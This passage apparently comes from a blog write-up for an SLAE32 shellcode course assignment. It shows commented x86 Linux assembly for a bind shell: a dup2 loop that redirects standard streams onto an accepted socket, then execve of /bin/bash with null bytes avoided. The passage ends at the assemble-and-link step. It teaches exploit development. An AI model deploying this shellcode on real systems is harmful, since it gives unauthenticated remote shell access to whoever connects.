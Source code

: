 ```term
       int 0x80               ; Call to kernel.
       mov esi, eax           ; Saves the value of eax for sockfd values later on.

       mov cl, 3              ; Starts counter for dup2

dup2:

       push word 63           ; Pushes word 63 (dup2) into the stack.
       pop ax                 ; Pops such word into ax so there are no nulls.
       mov ebx, esi           ; Copies the value from ESI to EBX, granting EBX the sockfd value from the accept syscall.
       dec cl                 ; Decrements cl in order to set the zero flag (ZF)
       int 0x80               ; Call to kernel

       jnz dup2               ; Jump if the zero flag (ZF) is not set, this will continue the loop 3 times.

execve:

       xor eax, eax           ; Zeroes out EAX
       push eax               ; Pushes EAX (0x00000000)

       PUSH 0x68736162        ; hsab
       PUSH 0x2f6e6962        ; /nib
       PUSH 0x2f2f2f2f        ; ////

       mov ebx, esp           ; Copies the pushed instructions into EBX.
       push eax               ; Pushes EAX (0x00000000)

       mov edx, esp           ; Copies the value of ESP (0x00000000) into EDX, giving envp[] a value of 0

       push ebx               ; Pushes ////bin/bash into the stack
       mov ecx, esp           ; Copies such value to ECX
       push word 11           ; Pushes word 11 (execve) into the stack.
       pop ax                 ; Pops such word into ax so there are no nulls.
       int 0x80               ; Calls to kernel
```

Let's assemble and link the file!

![](/assets/img/SLAE/SLAE32/Assignment_1/1.png)

#### The Wrapper
